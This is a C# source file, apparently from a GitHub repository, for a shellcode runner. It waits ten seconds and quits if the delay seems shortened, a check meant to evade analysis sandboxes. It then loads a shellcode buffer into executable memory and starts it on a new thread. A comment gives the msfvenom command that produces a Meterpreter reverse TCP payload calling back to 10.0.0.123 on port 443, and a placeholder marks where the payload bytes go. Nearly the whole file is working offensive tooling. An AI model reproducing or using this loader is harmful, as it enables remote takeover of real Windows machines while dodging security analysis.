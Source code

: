 Basic_Shellcode_Runner_C#

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices; 

namespace Basic_Shellcode_Runner
{
    public class Program
    {
        public const uint EXECUTEREADWRITE  = 0x40;
        public const uint COMMIT_RESERVE = 0x3000;

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

        [DllImport("Kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private unsafe static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, uint lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern Int32 WaitForSingleObject(IntPtr Handle, Int32 Wait);

        public static void Main()
        {

            DateTime t1 = DateTime.Now;
            Sleep(10000);
            double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
            if (deltaT < 9.5)
            {
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
            byte[] buf = new byte[511] { SHELLCODE_GO_HERE
            };
            int payloadSize = buf.Length;

			// Allocate executable memory
            IntPtr payAddr = VirtualAlloc(IntPtr.Zero, payloadSize, COMMIT_RESERVE, EXECUTEREADWRITE);

			// Copy shellcode to allocated memory
            Marshal.Copy(buf, 0, payAddr, payloadSize);

			// Execute shellcode
            IntPtr payThreadId = CreateThread(IntPtr.Zero, 0, payAddr, IntPtr.Zero, 0, 0);

			// wait for it to exit
            int waitResult = WaitForSingleObject(payThreadId, -1);
        }
    }
}
```
